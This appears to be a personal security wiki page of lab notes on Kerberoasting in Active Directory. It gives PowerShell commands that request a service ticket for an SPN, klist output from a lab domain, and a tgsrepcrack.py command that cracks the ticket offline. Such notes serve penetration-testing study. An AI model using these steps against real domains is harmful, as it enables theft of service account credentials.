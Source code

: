 ```yaml
---
title: Service Account Attacks
date: M02-15-2023
author: i4
---
```


- See [Kerberos](/wiki/Security/Windows/AD/Authentication/Kerberos.md)
- See [AD Enumeration](/wiki/Security/Windows/AD/enumeration.md) for SPN search

## Kerberoasting

- ``apt install kerberoast`` or ``lmpacket`` or ``rubeus.exe``

### Service Principal Name
- The client requests a service ticket that is generated by the KDC which is encrypted using the password hash of the SPN.
- No checks are performed by the KDC if the user is permitted to request defined by the SPN.
- If the SPN is known, a TGS can be requested and the SPN users hash cracked


### Requesting TGS 
- Will trigger AMSI

_Before_
```powershell
PS C:\Windows\system32> klist purge
PS C:\Windows\system32> klist

Current LogonId is 0:0x18c7d4

Cached Tickets: (0)
```

_Requesting TGS_
```Powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'
```

 _After_
``` powershell
PS C:\Windows\system32> klist

Current LogonId is 0:0x18c7d4

Cached Tickets: (2)

#0>     Client: offsec @ CORP.COM
        Server: krbtgt/CORP.COM @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/18/2023 3:42:48 (local)
        End Time:   2/18/2023 13:42:48 (local)
        Renew Time: 2/25/2023 3:42:48 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: DC01.corp.com

#1>     Client: offsec @ CORP.COM
        Server: HTTP/CorpWebServer.corp.com @ CORP.COM
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 2/18/2023 3:42:48 (local)
        End Time:   2/18/2023 13:42:48 (local)
        Renew Time: 2/25/2023 3:42:48 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called: DC01.corp.com 
```

### Exporting TGS to crack
- See [Mimikatz](/wiki/Security/Windows/Hashes/Mimikatz.md)
- The service ticket is encrypted using the SPN's password hash.

### Cracking tgs
_tgsrepcrack.py_
```
$ python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt [file]
```
